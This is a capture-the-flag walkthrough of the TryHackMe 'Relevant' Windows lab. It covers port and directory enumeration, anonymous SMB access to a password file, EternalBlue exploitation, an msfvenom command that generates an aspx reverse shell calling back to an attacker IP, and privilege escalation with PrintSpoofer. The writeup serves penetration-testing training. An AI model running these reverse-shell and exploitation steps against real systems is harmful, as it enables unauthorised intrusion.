

# Relevant - Writeup

**Date**: 06/04/2022

**Difficulty**: Hard

**CTF**: [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

---

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days.

**Scope of Work**

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

- User.txt
- Root.txt

Additionally, the client has provided the following scope allowances:

- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

# User Flag

First of all, let’s do a ping to the address:

ttl=127 indicates that, almost certainly, we will be attacking a Windows machine.

Let’s do a quick scan to see if there are open TCP ports:

`nmap -p- -T5 -sT --open 10.10.160.44`

Let’s do a further scan of the discovered open ports:

`sudo nmap -A -sC -p80,135,445,3389,49663,49667,49669 10.10.160.44`

Okay, let’s take a loot at the webpage of the server hosted in port 80:

Looks like the default Windows Server webpage.

The source code of the page looks pretty standard, nothing interesting in there. No cookies, no scripts loaded, nothing we can use. Let’s see if we can discover any directory with gobuster:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.160.44 -x txt,html,php -r -t 100`

Meanwhile let’s take a look to the other httpd server hosted in the port 49663:

It’s the same webpage we saw in the port 80 http service, maybe is a simple redirection? I’ll enumerate it with gobuster just in case.

On both cases, gobuster discovered this directories:

Let’s check on of them:

Looks like everytime you try to access to a directory that starts with * the server throws you this error.

Without anything else discovered with gobuster, let’s see if there is any vulnerability for the `Microsoft IIS httpd 10.0`

I have not found anything I can use... so let’s move on. Let’s see what the other services do and if we can use them to gain access to the target machine:

There are 3 `msrpc` services running on the target. Let’s see what msrcp means:

After some research, I have not find the way to use them right now...

The `ms-wbt-server` is a remote desktop control server. If we had some credentials we could use it to log in to the target.

The service in the port 445 `microsoft-ds` is a Server Message Blocks service.

We got connection to IPC folder as Null user! Can we do something here?

Apparently we cannot execute the `ls` command in this folder. Let’s try to see if we can enter in the last folder:

Yes, we did! And it allows us to use ls command. Thanks to it we discovered a file with passwords that we must download!

As there is nothing more to see here, let’s see the content of this file we downloaded:

So it looks like 2 passwords encoded. In order to try to crack it, we should try to discover the encoding format:

I tried with many online services and some scripts without success...

So I tried decoding it in base64:

The two lines looks like users and passwords!

Let’s cry this credentials for the SMB, just to check:

Nah, we cannot login to SMB using this credentials.

Let’s see if we can use them to log in using the remote desktop server:

Trying to connect using Bob credentials, we receive the error: ERRCONNECT_CONNECT_TRANSPORT_FAILED

Trying to connect using Bill Credentials we get a different error: ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED.

Let’s check if any of the services exposed have any vulnerability we can exploit. To scan for this, I’ll use an nmap script

`sudo nmap -sV --script=vuln -p80,135,445,3389,49664,49667,49669 10.10.190.219`

SMB seems to be vulnerable to Remote Code Execution (CVE-2017-0143)

It’s related with Wannacry and EternalBlue vulnerabilities:

At Exploit-DB I have found this exploit written in python which uses this vulnerability to perform Remote Code Execution [https://www.exploit-db.com/exploits/42315](https://www.exploit-db.com/exploits/42315):

[https://redteamzone.com/EternalBlue/](https://redteamzone.com/EternalBlue/)

After dealing with some python2 issues, I’m able to execute the script:

So it demonstrates we can write a file in the target machine. Awesome! Now, let’s modify the script to write a file that will grant us access to the machine: A RevShell!

First of all, let’s create the stageless reverse shell executable using msfvenom:

And now, let’s modify the exploit to upload the RevShell:

And, before executing the exploit, let’s open a netcat listener in our machine:

With all prepared, let’s run it!

We got the revshell! Now, let’s look for the user flag!

# Root Flag

Ok, let’s remember the user we are logged as:

Apparently, we are logged as the most powerful user in the target system, so we should have full access to every folder. This includes the Administrator user folder:

That was incredible fast. Not privilege escalation needed.

# Another way to get through Relevant machine.

If we have finished the gobuster scan of the server located on the 49663 port, we would have find the `nt4wrksv` directory.

As its name is the same as the directory we have access via SMB anonimously, we must check if it’s the same directory. To do so, I’ll try to navigate to the passwords.txt file:

It’s the same file, so we can assume that is the same folder.

Knowing this, we can generate a reverse shell with our machine, upload it to the target using SMB and execute it by loading it in the web-browser.

The first step is to create the payload, using msfvenom:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f aspx -o revshell.aspx`

And now, we can open a netcat listener and load the file we just uploaded:

And we got a connection! Let’s see which user are we logged as.

And, let’s see what privileges we have:

`SeImpersonatePrivilege` enabled sounds good, let’s search about it:

Let’s try first with juicy-potato, I have downloaded the executable from: [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

We have to upload it to the target, so I’m going to use the SMB again:

And now, let’s find the nt4wrksv folder in the target:

And now, let’s execute it:

Mmm... Not a good signal. Let’s try with Print Spoofer:

And this works, now we have executed a powershell as nt authority\system user.